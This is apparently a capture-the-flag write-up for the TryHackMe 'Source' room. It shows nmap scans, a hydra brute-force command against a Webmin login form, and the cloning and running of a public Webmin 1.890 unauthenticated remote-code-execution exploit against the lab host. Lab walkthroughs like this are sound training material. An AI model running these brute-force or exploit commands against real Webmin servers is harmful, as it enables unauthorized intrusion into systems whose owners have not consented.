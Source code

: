 # source

**Room Link:** [https://tryhackme.com/room/source](https://tryhackme.com/room/source)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/10000 - HTTP

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Tried to bruteforce the admin password but it blocked my IP after so many attempts, this is clearly not the intended route.

**Kali**

```
git clone https://github.com/vanhauser-thc/thc-hydra.git
cd thc-hydra/
./configure
make
make install

./hydra -S -l admin -s 10000 -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt ip-10-10-221-100.eu-west-1.compute.internal http-post-form "/session_login.cgi:user=^USER^&pass=^PASS^:F=Warning!" -V
```





**Kali**

```
git clone https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE.git
cd WebMin-1.890-Exploit-unauthorized-RCE/
python webmin-1.890_exploit.py  ip-10-10-221-100.eu-west-1.compute.internal 10000 id
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

I tried to get a full shell but nothing worked, there was a metasploit exploit which I could do for that but I didn't want to.

















































